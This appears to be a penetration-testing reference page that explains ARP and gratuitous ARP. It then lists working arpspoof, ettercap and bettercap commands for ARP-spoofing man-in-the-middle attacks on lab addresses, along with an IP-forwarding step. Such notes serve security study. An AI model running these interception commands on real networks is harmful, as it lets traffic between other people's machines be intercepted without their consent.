 # ⭕ ARP Spoofing

## <mark style="color:red;">ARP</mark>

• An ARP request message should be placed in a frame and broadcast to all computers on the network

• Each computer receives the request and examines the IP address

• The computer mentioned in the request sends a response; all other computers process and discard the request without sending a response

![](<../../.gitbook/assets/image (293) (1) (1) (1) (1).png>)

## <mark style="color:red;">Gratuitous ARP</mark>

• Gratuitous ARP is used by hosts to “announce” their IP address to the local network and avoid duplicate IP addresses on the network; routers and other network hardware may use cache information gained from gratuitous ARPs

• Gratuitous ARP is a broadcast packet (like an ARP request)

![](<../../.gitbook/assets/image (277) (1) (1).png>)

HOST W: Hey everyone I’m host W and my IP Address is 1.2.3.4 and my MAC address is 12:34:56:78:9A:BC

## <mark style="color:red;">ARP Spoofing</mark>

### <mark style="color:orange;">arpspoof</mark>

```
arpspoof -t [target] -r [router]
```

example:

#### 1. Enable ip forwarding first

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

#### 2. tell 172.16.5.1 that if they need to communicate with 172.16.5.23 they must pass from the attacker system

```
arpspoof -i tap0 -t 172.16.5.1 -r 172.16.5.23 
```

#### now, in a separate terminal

#### 3. tell 172.16.5.23 that if the need to communicate with 172.16.5.1 they must pass from the pentester system

```
arpspoof -i tap0 -t 172.16.5.23 -r 172.16.5.1
```

### <mark style="color:orange;">Ettercap</mark>

```
ettercap [options] [target1] [target2]
```

example:

```
ettercap -T -q -M arp::remote /172.16.0.1-254//   /172.16.0.1-254//
```

### <mark style="color:orange;">Bettercap</mark>

#### Refer to [Bettercap cheat sheet](arp-spoofing.md#bettercap) for full documentation.

specify a number of IP addresses, comma=separated

```
set arp.spoof.targets IPs
```

turn ARP spoof on/off

```
arp.spoof on / off
```

#### When the arp.spoof module is started, Bettercap will automatically configure the OS features for the MitM attack (such as turning on IP forwarding on Linux systems)
